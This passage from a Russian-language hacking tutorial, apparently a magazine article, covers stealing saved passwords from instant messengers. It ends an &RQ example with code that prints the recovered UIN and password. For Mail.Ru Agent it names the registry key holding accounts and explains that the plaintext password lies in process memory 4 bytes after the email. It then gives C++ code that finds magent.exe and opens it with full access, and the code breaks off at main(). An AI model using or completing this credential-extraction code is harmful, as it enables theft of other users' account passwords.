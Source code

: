 ```text
cout << "[!!!]Found for: "<< pUIN << "\tPassword: " << pPass;
// Освободим память
LocalFree(pUIN);
LocalFree(pPass);
}
```

После выполнения программы можно убедиться, что и данный пример работает. Мы получили наш пароль. При этом, если QIP в случае сохранения пароля на диске скрывает пароль, то &RQ не заботится о том, как был введен пароль. В окне настроек пароль можно обнаружить всегда.  
Единственный нюанс заключается в том, что &RQ не открывает окно настроек после старта, хотя единожды открытое окно настроек после закрытия опять же не закрывается, а просто становится невидимым. В исходном коде мы использовали горячую клавишу, чтобы быть уверенными, что окно настроек открыто.

### Взлом паролей [Mail.Ru](http://mail.Ru) Агент

Очередное средство общения в сети, предоставляемое компанией [Mail.Ru](http://mail.Ru). Работает по собственному протоколу, имеет возможность голосового общения с выходом на внешние телефонные номера. Имеет кучу возможностей и соответственно, поклонников, которые пользуются им ежедневно.  
В случае с [Mail.ru](http://mail.ru) Агентом мы будем использовать другой подход. Чуть более сложный, но не менее эффективный. Окна искать мы не будем. Попробуем найти пароль в памяти процесса.  
Итак, качаем, устанавливаем, регистрируемся если надо и запускаем.  
Агент поддерживает несколько аккаунтов пользователей, и список их хранит в реестре. В ветке 

```text
HKEY_CURRENT_USER\Software\ Mail.Ru\Agent\magent_logins
```

 он создает столько REG\_BINARY параметров, сколько аккаунтов зарегистрировано на локальном компьютере. Ключи при этом называются следующим образом: NNN\#ваш\_email\_адрес, где NNN - порядковый номер аккаунта.  
Посмотрим, есть ли в памяти процесса email-адрес. Для этого воспользуемся утилитой PE Tools, которая позволяет сделать дамп процесса.  
Сохраняем дамп, загружаем его в Hex Workshop. Жмем Ctrl+F для открытия диалога поиска. Выбираем режим Text String и в поле Value вводим наш email-адрес. Нажимаем Ok и редактор выделяет найденный текст. Вы уже заметили? Через 4 байта от email-адреса находится пароль! Что это за 4 байта? Это 32-х битное значение длины пароля. Перед email-адресом тоже есть его длина. Вот и все, осталось только автоматизировать процесс поиска, чем мы и займемся.

```text
// Функция возвращает хэндл процесса magent.exe
HANDLE GetProcess()
{
HANDLE hProcessSnap; // Хэндл снимка процессов
PROCESSENTRY32 pe32; // Структура, содержащая информацию о процессе
// Делаем снимок процессов
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
if(hProcessSnap == INVALID_HANDLE_VALUE) return 0;
pe32.dwSize = sizeof(PROCESSENTRY32);
// Перебираем снимок
if(!Process32First(hProcessSnap,&pe32)) {CloseHandle(hProcessSnap);return 0;}
do
{
// Сравниваем имя файла с magent.exe
if(!lstrcmp(strupr("magent.exe"),strupr(&pe32.szExeFile[0])))
{
// Нашли нужный процесс, вернем его хэндл
return OpenProcess(PROCESS_ALL_ACCESS,FALSE,pe32.th32ProcessID);
}
} while( Process32Next(hProcessSnap,&pe32));
// Закрываем снимок процессов
CloseHandle( hProcessSnap );
return 0;
}
void main()
{
```